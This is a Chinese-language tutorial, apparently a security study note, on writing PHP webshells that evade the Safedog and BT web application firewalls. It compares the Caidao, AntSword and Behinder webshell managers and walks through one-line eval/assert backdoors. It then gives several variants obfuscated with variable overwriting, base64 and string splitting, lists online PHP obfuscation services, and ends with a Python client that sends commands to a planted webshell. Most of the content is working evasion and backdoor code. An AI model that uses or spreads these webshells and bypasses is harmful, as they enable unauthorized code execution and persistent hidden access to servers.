

# WAF权限控制之代码混淆



## 权限控制原理分析

菜刀，蚁剑，冰蝎优缺点

菜刀：未更新状态，无插件，单向加密传输

蚁剑：更新状态，有插件，拓展性强，单向加密传输

冰蝎：更新状态，未知插件，偏向于后渗透，双向加密传输

### 冰蝎加密原理

冰蝎在服务端支持open_ssl时，使用AES加密算法，密钥长度16位，也可称为AES-16。此在软件及硬件(英特尔处理器的AES指令集包含六条指令)上都能快速地加解密，内存需求低，非常适合流量加密。


首先客户端以Get形式发起带密码的请求。

服务端产生随机密钥，将密钥写入Session并将密钥返回客户端。

客户端获取密钥后，将payload用AES算法加密，用POST形式发送请求。

服务端收到请求，用Session中的密钥解密请求的Body部分，之后执行Payload，将直接结果返回到客户端。

客户端获取返回结果，显示到UI界面上。

## 一句话后门的原理

```php
<?php @eval($_POST['password'])?>
<?php assert($_POST['chopper'])?>
```

* @再php中含义为后面如果执行错误不会报错
* `eval()`函数表示括号里的语句全做代码执行
* `$_POST['password']`表示从页面中以post方式获取变量password的值。

## WebShell工具的基本原理

把一些具体执行语句集成化（各种各样在功能语句都帮你写好了），你直接连接执行就可！

## Safedog 代码层手写及脚本绕过

### 变量覆盖

#### 后门原型

```php
<?php @eval($_POST['password'])?>
<?php assert($_POST['chopper'])?> // 这种方式直接被安全狗拦截,php7之后assert()默认不再可以执行代码
```

使用变量覆盖的方式编写木马，直接绕过。

```php
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b($_POST['z']);

//?x=b&y=assert
//$a = b
//$$a ->$b 变量引用
//$b= assert
//$b($_POST['z']);--->assert($_POST['z'])

$a = 'b';
$b = 'assert';
$$a(base64_decode($_POST['x']));

?>
```


把敏感字符传递的参数中，waf能够确定你的代码，但是确定不了你传递的参数值，safedog有变量追踪。简单的拆分，直接报马。

```php
<?php 
$a = $_GET['x'];
// $$a = $_GET['y'];
$a($_POST['z']);
?>
// 或者这一种
<?php 
$a = $_GET['x'];
// $$a = $_GET['y'];
$b='assert';
$b($_POST['z']);
?>
```

但是对于BT来说，他会检测`phpinfo`这个函数这时候就需要我们对传入的数据进行编码。

```php
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b(base64_decode($_POST['z']));
?>
// 或者
<?php
$a = $_GET['x'];
$$a = base64_decode($_GET['y']);
$b($_POST['z']);
?>
```

不能使用eval，因为eval是一个语言构造器，而不是函数，不能被可变函数或者命名参数调用。所以只能使用assert，php7之后assert()默认不再可以执行代码。这样我们就没办法编写相应的一句话绕过了，只能使用别的办法。


### 加密混淆

对PHP加密的两个常用网站

http://enphp.djunny.com/

https://www.phpjiami.com/phpjiami.html

只需要将写的PHP一句话，上传到对应的网站，即可进行加密，但是对于有一些时二进制加密的，我们不能够复制加密文件的内容，到服务器上，需要将文件复制到对应的服务器上才可以。

### 异或生成

使用webshell-venom这个项目来生成异或的shell。

### 参数带入

```php
<?php 
$a = $_GET['a']; // 传入ass组成assert
$aa=$a.'ert';
$aa(base_decode($_POST['x']));
?>
```

## BT Aliyun 代码层手写及脚本绕过

编码解码(变量覆盖，加密混淆，异或生成)

## 造轮子

waf基本都有菜刀、蚁剑、冰蝎的指纹，当你使用他们的时候，一些危害行为会被拦截！

要想不被识别拦截，只能自己造轮子！

自己写数据包，不会有那些指纹特征，就能实现功能！


可以将命令换成任意的命令，例如文件写入等等。

### Python脚本编写管理工具

```python
import requests

url = "http://192.168.132.139/mypage/mywebpage/muma.php"
password = 'mr6'
execcontroller = "var_dump(scandir('.'))"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 Edg/112.0.1722.58'
}
password_encode = execcontroller.encode('utf-8')
data = {
    password:password_encode
}
result = requests.post(url=url,headers=headers,data=data)
print(result.text)
```